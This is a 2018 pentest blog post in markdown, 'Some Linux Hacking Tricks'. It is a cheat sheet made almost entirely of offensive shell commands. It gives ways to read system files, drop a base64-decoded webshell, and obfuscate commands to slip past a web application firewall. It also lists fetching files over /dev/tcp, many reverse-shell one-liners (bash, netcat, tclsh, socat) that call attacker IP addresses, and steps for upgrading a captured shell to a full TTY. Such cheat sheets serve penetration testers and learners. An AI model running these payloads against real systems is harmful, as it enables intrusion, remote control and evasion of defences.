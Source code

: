 ```yaml
---
layout: post
title: Some Linux Hacking Tricks
date: 2018-05-10 13:43:02
categories: [Pentest, Red Team]
---
```


> 本文首发[逢魔安全实验室技术博客](https://blog.formsec.cn/2018/05/10/Some-Linux-Hacking-Tricks/)

**There is always a method here is useful for you to penetration test  ：）**

#### Some ways to read system files
```bash
cat /etc/issue
tac /etc/issue
less /etc/issue
more /etc/issue
head /etc/issue
tail /etc/issue
nl /etc/issue
xxd /etc/issue
sort /etc/issue
uniq /etc/issue
strings /etc/issue
sed -n '1,10p' /etc/issue
grep . /etc/issue
python -c "print(open('/etc/issue').read())"
perl -F: -lane 'print "@F[0..4]\n"' /etc/issue
ruby -e 'IO.foreach("/etc/issue"){|a| print a}'
php -r "echo file_get_contents('/etc/issue');"
echo $(</etc/issue) or echo `</etc/issue`
awk '{print $0}' /etc/issue
base64 -i /etc/issue
dd count=1000 bs=1 if=/etc/issue 2>/dev/null
egrep|fgrep|rgrep|agrep "" /etc/issue
rev /etc/issue
comm /etc/issue /etc/issue
paste /etc/issue
```

#### Echo a large file to the file System
<!--more-->
```bash
echo -n "aGVsbG8gd29ybGQK"|base64 -d > webshell.jsp
```
#### Execute commands in bash to bypass waf

```bash
# cat /etc/issue
$1c$2a$3t$IFS/$4e$5t$6c/$7i$8s$9s$1u$1e 
IFS=,;`cat<<<cat,/etc/issue`
{cat,/etc/issue}
cat<>/etc/issue
CMD=$'\x20/etc/issue'&&cat$CMD
echo Y2F0IC9ldGMvaXNzdWU=|base64 -d|bash
```
#### Download file without nc&wget
```bash
exec 5<>/dev/tcp/ip/port &&echo -e "GET /filename HTTP/1.0\n" >&5 && cat<&5 > filename
```
#### Create An Interactive Shell
```bash
# Use Bash
$ bash -i >& /dev/tcp/192.168.68.206/2333 0>&1
$ exec 196<>/dev/tcp/192.168.68.206/2333; sh <&196 >&196 2>&196
$ exec 5<>/dev/tcp/192.168.68.206/2333 cat <&5 | while read line; do $line 2>&5 >&5;done
$ exec 5<>/dev/tcp/192.168.68.206/2333 cat <&5 | while read line 0<&5; do $line 2>&5 >&5; done

# Use Netcat
$ nc -e /bin/sh 192.168.68.206 2333  
$ mkfifo fifo ; nc.traditional -u 192.168.199.199 5555 < fifo | { bash -i; } > fifo
$ nc 192.168.199.199 5555 -c /bin/bash
$ if [ -e /tmp/f ]; then rm /tmp/f;fi;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.199.199 5555 > /tmp/f
$ if [ -e /tmp/f ]; then rm -f /tmp/f;fi;mknod /tmp/f p && nc 192.168.199.199 5555 0</tmp/f|/bin/bash 1>/tmp/f
$ nc 192.168.68.206 2333|/bin/sh|nc 192.168.68.206 2444  

# Use TCHsh
$ echo 'set s [socket 192.168.199.199 5555];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh # tcp

# Use Socat
$ socat tcp-connect:192.168.199.199:5555 exec:"bash -li",pty,stderr,setsid,sigint,sane # tcp

## Full list please read my blog
## http://reverse-tcp.xyz/2017/01/08/Some-Ways-To-Create-An-Interactive-Shell-On-Linux/
```
#### Use rlwrap to run netcat and create a listening port
```bash
# Allow the editing of keyboard input for any other command.
rlwrap -S "$(printf '\033[95mFS>\033[m ')" nc -lvvp 4444
```

#### Upgrading simple shells to fully interactive TTYs
```bash
## use Python to spawn a pty
python -c 'import pty; pty.spawn("/bin/bash")'

## Using socat
# Socat is like netcat and it can be used to pass full TTY's over TCP connections.
# If socat isn't installed, you can download id from here : https://github.com/andrew-d/static-binaries
# On Attack Host
socat file:`tty`,raw,echo=0 tcp-listen:4444 
# On Victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

## Using Expect
cat sh.exp
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
# In reverse shell
expect sh.exp

## Using stty options
#
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
# In attack shell
stty raw -echo
fg
# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

#### One command to locate the web path
```bash
find / -type f -name "*.*" | xargs grep "htmlstring"
```


